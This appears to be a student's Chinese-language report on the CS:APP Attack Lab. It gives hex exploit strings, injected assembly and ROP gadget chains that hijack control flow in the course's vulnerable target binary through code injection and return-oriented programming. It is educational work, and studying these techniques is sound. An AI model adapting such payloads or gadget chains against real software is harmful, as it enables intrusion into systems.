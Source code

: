 # Attack Lab Report

胡译文 2021201719

## Touch1

第一题比较简单，只需要确定地址就行。

```text
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
f2 16 40 00
```



## Touch2

第二题需要确定函数的参数，可以硬编码这样一条指令：

```assembly
mov  $0x48fd3040,%rdi
ret
```

再将硬编码的指令转成hex以后插入进去。

```text
48 c7 c7 40  30 fd 48 c3  /* injected code */
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
38 68 62 55  00 00 00 00  /* rsp */
1e 17 40 00
```

在用gdb的时候发现，栈的地址和一般的地址有显著不同，而且gdb限制了只能查看当前段里的汇编。一般而言栈上不应该执行代码，这里为第二阶段埋下了伏笔。

## Touch3

首先将 cookie 对应的 ascii 码计算出来，现在需要考虑的是选取栈中的某个位置放置。经过运行发现，0x55626838~0x55626868里栈的内容都会被“修改”。假设下一次使用被覆盖的栈不变，因此将字符串内容放置在 0x55626870 位置。

```assembly
mov  $0x55626870,%rdi
ret
```

```text
48 c7 c7 70  68 62 55 c3  /* 38 68 62 55 = 0x55626838 */
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00 
38 68 62 55  00 00 00 00  /* 50 return address of getbuf */
f2 17 40 00  00 00 00 00  /* 58 return address of new frame */
00 00 00 00  00 00 00 00  /* 60 new stack frame starts here */
00 00 00 00  00 00 00 00
34 38 66 64  33 30 34 30  /* 70 */
```

## ROP Touch2

PDF文件给了非常详细的指引，`farm`里的hex也基本上限制在了PDF文件里给出的指令当中，不需要考虑其他的指令。使用正则表达式搜索发现仅有`popq %rax`在`farm`中出现且可以从栈上读取数据。因此接下来的操作比较简单，拷贝这部分数据就行。

```text
4018a2:       c7 07 0b 58 90 c3       movl   $0xc390580b,(%rdi)  # 0x4018a5
401886:       c7 07 48 89 c7 c3       movl   $0xc3c78948,(%rdi)  # 0x401888
```

```text
58 90        popq %rax
c3           ret
48 89 c7     movq %rax,%rdi
c3           ret
```

将答案编码如下：

```text
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
a5 18 40 00  00 00 00 00  /* rsp: popq %rax */
40 30 fd 48  00 00 00 00  /* source of popq */
88 18 40 00  00 00 00 00  /* movq %rax,%rdi */
1e 17 40 00  00 00 00 00  /* touch2 */

```



## ROP TOUCH3

相比于TOUCH3，猜测字符串放在栈并读取是被允许的，不被允许的是运行栈上的指令。因此需要构造：使用`popq`从栈上读取地址，将地址存储在`%rdi`中。

```
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
a5 18 40 00  00 00 00 00  /* 50 rsp: popq %rax */
80 68 62 55  00 00 00 00  /* 58 source of popq */
88 18 40 00  00 00 00 00  /* 60 movq %rax,%rdi */
f2 17 40 00  00 00 00 00  /* 68 touch3 */
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
34 38 66 64  33 30 34 30  /* 80 */
```

但是结果显示运行到 `movdqu  (%rdi),%xmm1`读取栈上地址时，发生段错误。这里犯了一个严重的错误：栈的地置不是固定的！需要用`%rsp`进行索引！于是设计如下方法：从`%rsp`读取地址，计算实际数据相对于读取`%rsp`的偏移量，执行加法运算，将地址传给`%rdi`。关键在于加法──并没有一条指令执行！但是峰回路转，想起来`farm`本身就是函数：

```c
long add_xy(long x, long y)
{
    return x+y;
}
```

因此经过反反复复不停的搜索，探索出主要步骤是：

```mermaid
graph LR
  f{add_xy}
  rsp --> e[rax] --> a[rdi] --> f
  o((offset)) --> c[rax=eax] --> edx--> ecx --> rsi=esi --> f
  f --> d[rax] --> b[rdi]
```

其中使用正则表达式如`89 [cdef][7f]`能轻松搜索出目标寄存器是`%rdi`或`%edi`的`mov`指令。

```text
401974:       b8 2c 89 c2 c3          mov    $0xc3c2892c,%eax  # 401976 eax -> edx

401967:       b8 89 d1 20 c9          mov    $0xc920d189,%eax  # 401968 edx -> ecx
40196c:       c3

401981:       c7 07 89 ce 20 db       movl   $0xdb20ce89,(%rdi)  # 401983 ecx -> edi
401987:       c3                      retq

4018ce:       8d 87 c8 48 89 e0       lea    -0x1f76b738(%rdi),%eax  # 4018d1 rsp -> rax
4018d4:       c3                      retq

401886:       c7 07 48 89 c7 c3       movl   $0xc3c78948,(%rdi)  # 401888 rax -> rdi
40188c:       c3                      retq

00000000004018bc <add_xy>:
4018bc:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax  # 4018bc
4018c0:       c3                      retq

401886:       c7 07 48 89 c7 c3       movl   $0xc3c78948,(%rdi)  # 401888 rax -> rdi
```

将答案编码如下：

```text
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
00 00 00 00  00 00 00 00
a5 18 40 00  00 00 00 00  /* rsp: popq %rax */
20 00 00 00  00 00 00 00
76 19 40 00  00 00 00 00
68 19 40 00  00 00 00 00
83 19 40 00  00 00 00 00
d1 18 40 00  00 00 00 00  /* read from rsp */
88 18 40 00  00 00 00 00
bc 18 40 00  00 00 00 00
88 18 40 00  00 00 00 00
f2 17 40 00  00 00 00 00
34 38 66 64  33 30 34 30  /* string */
00 00 00 00  00 00 00 00

```

